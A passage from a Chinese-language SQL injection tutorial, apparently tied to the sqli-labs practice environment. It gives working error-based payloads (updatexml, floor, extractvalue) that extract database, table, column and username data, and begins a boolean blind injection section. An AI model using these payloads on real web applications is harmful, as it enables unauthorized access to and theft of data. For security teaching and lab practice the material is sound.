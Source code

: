 **查询库名：**

```sql
?id=1' and updatexml(1,concat(0x7c,(select database()),0x7c),1) %23
```
**查询表名：**
```sql
?id=1' and updatexml(1,concat(0x7c,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x7c),1) %23
```
**查询字段名：**
```sql
?id=1' and updatexml(1,concat(0x7c,(select column_name from information_schema.columns where table_name='users' limit 0,1),0x7c),1)%23
```
sql-labs第五关对应报错注入，注入语句如下：
```sql
?id=1' and updatexml(1,concat(0x7c,(select username from users limit 0,1),0x7c),1)%23
```
注入效果如下：
![image](https://github.com/eagleatman/Injection/blob/master/%E6%B3%A8%E5%85%A5/SQL%E6%B3%A8%E5%85%A5/media/1634051626679108000220.png)
## 7.3. **其他报错注入**

1. floor() 语句:and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a);

floor函数和group by一起用时会发生冲突，导致报错。

2. ExtractValue() 和upadtexml()用法差不多 语句:and extractvalue(1, concat(0x5c, (select user())));
# 8. SQL注入-盲注

## 8.1. **布尔盲注**

### 8.1.1. **特点**

1. 在没有数据回显的情况下，可以存在不同的页面内容回显
2. 通常逐个爆破猜解，效率偏低
3. 思路：利用回显的不同推测SQL语句执行的结果是True还是False
4. payload：select * from users where user='xx' and pass>'123'#'
### 8.1.2. 常用函数

ascii（）括号中的参数转化成相应的ascii码
